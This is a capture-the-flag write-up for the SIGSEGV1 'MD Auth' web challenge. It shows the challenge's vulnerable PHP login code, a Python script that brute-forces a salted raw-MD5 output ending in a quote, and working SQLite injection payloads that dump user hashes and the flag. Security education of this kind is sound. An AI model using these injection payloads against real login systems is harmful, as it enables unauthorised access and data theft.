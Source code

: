 ```yaml
---
layout: post
title: SIGSEGV1 Writeup - MD Auth
---
```


Let's talk about the "MD Auth" challenge, I admit I started with this challenge thinking it would be about "Markdown". 
I was wrong but it was nonetheless interesting to solve.

The source code of the index was available by requesting : [http://finale-docker.rtfm.re:4444/?source](http://finale-docker.rtfm.re:4444/?source)

{% highlight php%}
<?php
$_TITLE = 'MD Auth';
$_LONGTITLE = 'MD Auth';
$con = new SQLite3('mdauth.db');

require 'config.php'; # 7-digit APP_SALT, MAX_ERRORS and check_errors()
if(isset($_POST['login'], $_POST['password'])) {
    $errors = isset($_COOKIE['signed_errors']) ? check_errors($_COOKIE['signed_errors']) : 0;
    if($errors >= MAX_ERRORS) {
        presult('You have been banned for reaching '.MAX_ERRORS.' errors');
    } else {
        $login = $con->escapeString($_POST['login']);
        $hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
        $query = $con->query("SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'");
        if(!$query) $row=FALSE; 
        else $row = $query->fetchArray();

        if($row !== FALSE&& $query->fetchArray() === FALSE) {
            presult("Welcome back {$row['login']}!");
        } else {
            presult('Wrong username/password combination!');
            setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
        }
    }
{% endhighlight %}

At first I tried to access the database with my browser by requesting [finale-docker.rtfm.re:4444/mdauth.db](finale-docker.rtfm.re:4444/mdauth.db), unfortunately that didn't work. Let's dig deeper into the source code. We want to authenticate on the Web Application, maybe we can do an SQL injection inside the following query.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
{% endhighlight %}

In order to exploit this, we need to bypass the `escapeString` function used for `$login` and `$hash`.

{% highlight php%}
<?php
$login = $con->escapeString($_POST['login']);
$hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
?>
{% endhighlight %}

The `md5` function is called with the second argument set to `true`, meaning we will get a binary output instead of a hexadecimal one. We might be able to get a backslash in the binary output, but we need to know the `APP_SALT` value in order to do our offline bruteforce. The author of the challenge was kind enough to provide a way to get this secret by misusing the `cookie`.

{% highlight php%}
<?php
setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
?>
```
{% endhighlight %}

We can do a single failed attempt in order to get a cookie containing the md5(SALT+"1"), based on the comment in the code we know the SALT is between 0000000-9999999 (7-digit APP_SALT). 

I got `MD5:4322dfb1e9b20645594e9f3f6998845a` which correspond to the following `PLAIN:86203711`. We now have our APP_SALT value : 8620371. The following script will bruteforce the first 1000 numbers looking for a quote in the last char of the MD5 output.

{% highlight python%}
import requests
import hashlib

# md5 true : http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
def computeMD5hash(my_string):
    m = hashlib.md5()
    m.update(my_string.encode('utf-8'))
    return m.digest()

# Use the salt to find a string ending by "\"
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "\\" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

In my first attempt, I was looking for a backslash "\" in order to escape the single quote "'" from the query and use the login to complete the SQL injection.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
SELECT login FROM users WHERE hash='GARBAGE\' and login=' OR 1=1--' 
{% endhighlight %}

It would have worked in a MySQL database, unfortunately we were in front of a SQLite one. The documentation and stackoverflow provided the useful information, escaping is done by doubling the quote.

{% highlight sql%}
INSERT INTO table_name (field1, field2) VALUES (123, 'Hello there''s');
{% endhighlight %}

I adjusted the script to check for a single quote and got the number `45`.

{% highlight python%}
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "'" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

Now it's just a simple SQL injection, by using the following credential i was able to extract interesting data.

{% highlight sql%}
login = "union all select hash from users limit 1--"
password = "45"

The query looked like "SELECT login FROM users WHERE hash='GARBAGE'' and login=' union all select hash from users limit 1--'"
with hash='GARBAGE'' and login='
{% endhighlight %}

I got the following users : `admin` and `flaggy`. Next step was to extract the flag from the database, it was located in the flag_field of the users.

{% highlight bash%}
union all select flag_field from users limit 2,1--
Welcome back sigsegv{82e9f4a155b9b740b4ff37624429b031}!
{% endhighlight %}